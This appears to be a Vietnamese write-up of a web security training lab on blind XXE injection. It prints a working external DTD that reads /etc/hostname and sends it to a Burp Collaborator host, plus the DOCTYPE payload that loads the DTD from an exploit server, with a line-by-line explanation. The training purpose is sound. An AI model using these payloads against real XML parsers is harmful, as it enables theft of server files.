

### Giải quyết
- Từ mô tả tôi biết rằng trong lab này sẽ phải sử dụng external DTD để khai thác.
- Lab có sẵn 1 exploit server cho phép lưu trữ tệp.
- Tiến hành khai thác:
    - Đầu tiên chuẩn bị 1 file `dtd` và lưu nó trên exploit server với nội dung:
    ```
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'http://b5h48zc4718pauyz51kr21fn8ee62v.burpcollaborator.net/?x=%file;'>">
    %eval;
    %exf; 
    ```
        - Dòng đầu tiên sẽ chứa nội dung file muốn trích xuất thông tin.
        - Dòng thứ 2: định nghĩa XML parameter entity `eval` sẽ chứa phần dynamic declaration (có thể gọi là khai báo động) cho một XML parameter entity khác là `exf` 
        - `&#x25;` là hex code của `%`
        - Dòng thứ 3 `%eval` gọi tham chiếu đến parameter entity `eval` từ đó tạo dynamic declaration cho `exf` entity. Quá trình này cũng sẽ gọi tham chiếu đến `file` entity để đọc nội dung file `/etc/hostname` từ đó lấy giá trị gán vào URL query string chỗ `?x`
        - Dòng cuối cùng `%exf` gọi tham chiếu đến arameter entity `exf` tạo HTTP request với URL query string chứa thông tin file /etc/hostname tới Burp Collaborator từ đó thông tin file sẽ bị rò rỉ.
    - Sau khi lưu file trên exploit server -> view exploit để lấy đường dẫn đến file vừa lưu
    - Cuối cùng quay lại chức năng `Check stock` để kích hoạt DTD file trên exploit server.
    `<!DOCTYPE foo [<!ENTITY % test SYSTEM "https://exploit-0abf004804f62a71c158611301db0074.exploit-server.net/exploit.dtd"> %test;]> `
    
    
    - Submit thông tin lấy được trên URL query string để hoàn thành lab.
    
    ###### Solved!
    


